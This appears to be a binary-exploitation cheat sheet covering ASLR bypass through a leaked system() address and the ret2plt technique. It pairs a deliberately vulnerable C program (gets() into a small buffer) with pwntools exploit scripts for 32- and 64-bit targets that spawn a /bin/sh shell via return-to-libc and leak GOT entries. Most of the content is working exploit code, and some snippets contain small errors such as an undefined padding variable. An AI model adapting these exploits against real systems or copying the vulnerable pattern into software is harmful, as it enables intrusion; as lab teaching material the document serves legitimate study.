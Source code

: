 # ASLR Bypass
## Overview
Bypassing ASLR using a leaked address (e.g., system function) allows an attacker to calculate the base address of libc and exploit a buffer overflow vulnerability. This method works even if NX is enabled, as it uses return-to-libc instead of injecting shellcode.

#### Source Code
````c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
    char buffer[20];
    printf("System is at: %lp\n", system);
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
````

#### Exploitation Steps
Leak the address of system.
Calculate libc base address from the leak.
Craft a payload to call system("/bin/sh").

#### 32-bit Exploit
```python
from pwn import *

elf = ELF('./vuln-32')
libc = elf.libc
p = process()

# Leak system address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

# Calculate libc base
libc.address = system_leak - libc.sym['system']

# Payload to call system("/bin/sh")
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
p.interactive()
```

#### 64-bit Exploit
```python
from pwn import *

elf = ELF('./vuln-64')
libc = elf.libc
p = process()

# Leak system address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

# Calculate libc base
libc.address = system_leak - libc.sym['system']

# ROP to call system("/bin/sh")
rop = ROP(libc)
rop.raw('A' * 32)
rop.system(next(libc.search(b'/bin/sh')))

p.sendline(rop.chain())
p.interactive()
```

---

#### Key Notes
Leak system address to bypass ASLR.
Return-to-libc avoids injecting shellcode.
Works on both 32-bit and 64-bit systems.

### **ret2plt**

#### **Overview**
**ret2plt** (Return-to-Procedure Linkage Table) is a technique where an attacker exploits a buffer overflow to redirect the program’s control flow to the **PLT** (Procedure Linkage Table), typically to call functions like `puts`. The attacker passes the **GOT** (Global Offset Table) entry for a function like `puts` to leak its address, then uses that address to perform further exploitation (e.g., **ret2libc**).

#### **Exploitation Steps**
1. Overflow the buffer to control the return address.
2. Call `puts` via the **PLT** and pass the **GOT** entry for `puts` to leak its address.
3. Return to `main` to continue the process and exploit further.

#### **32-bit Exploit**
```python
from pwn import *

elf = ELF('./vuln-32')
p = process()

# Craft payload to call puts@plt with puts@got
payload = flat(
    b'A' * padding,             # Overflow buffer
    elf.plt['puts'],            # Address of puts in PLT
    elf.symbols['main'],        # Return to main
    elf.got['puts']             # Address of puts in GOT
)

p.sendline(payload)
p.interactive()
```

#### **64-bit Exploit**
```python
from pwn import *

elf = ELF('./vuln-64')
p = process()

# Define ROP gadget for RDI register (for 64-bit)
POP_RDI = 0x4011cb  # Example POP RDI gadget address

# Craft payload to call puts@plt with puts@got
payload = flat(
    b'A' * padding,             # Overflow buffer
    POP_RDI,                    # Gadget to set RDI
    elf.got['puts'],            # Address of puts in GOT
    elf.plt['puts'],            # Address of puts in PLT
    elf.symbols['main']         # Return to main
)

p.sendline(payload)
p.interactive()
```

#### **Key Notes**
- **ret2plt** leaks the address of functions (like `puts`) to bypass ASLR.
- It involves using **GOT** entries and **PLT** to perform controlled function calls.
- This can lead to **ret2libc** exploitation once the leaked address is known.


